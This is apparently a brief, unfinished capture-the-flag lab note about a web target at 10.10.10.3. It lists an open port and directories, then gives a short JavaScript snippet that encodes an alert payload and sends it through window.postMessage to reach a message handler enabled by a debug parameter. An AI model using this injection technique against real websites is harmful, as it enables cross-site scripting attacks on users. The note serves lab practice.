# B/W


Ip `10.10.10.3`

open port 80

# Available directory

admin
assets


# Simil payload

Query param debug=true enabled an event handler of message.

We can send a payload that will be encoded e passed as event ed inserted in a div

```js
payload   = [...'alert("ciao")'].map(i => String.fromCharCode(i.charCodeAt(0) - 3))

window.postMessage(payload.map(i=>String(i)), 'http://10.10.10.3')
```

In `feat.js` the code will render the payload but... why 
